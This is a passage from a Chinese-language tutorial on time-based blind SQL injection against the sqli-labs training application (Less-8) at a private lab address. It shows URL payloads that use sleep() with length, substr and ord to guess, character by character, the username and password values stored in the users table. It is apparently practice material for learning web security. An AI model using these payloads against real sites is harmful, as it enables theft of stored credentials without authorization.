 猜测users表中password第二行长度

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length((select password from security.users limit 1,1))=5,sleep(5),1)--+

![img](assets/pKfUS1voRY5jA4y.jpg) 

#### 3.4.4.11.**猜测某字段数据的名**

猜测users表中username第一行第一个字母

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ord(substr((select username from security.users limit 0,1),1,1))=68,sleep(5),1)--+

![img](assets/lWdZUfaeTSLVg2k.jpg) 

猜测users表中的password第二行第二个字母

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ord(substr((select password from security.users limit 1,1),2,1))=100,sleep(5),1)--+

![img](assets/xnQ7dMFUEwGuLA8.jpg) 
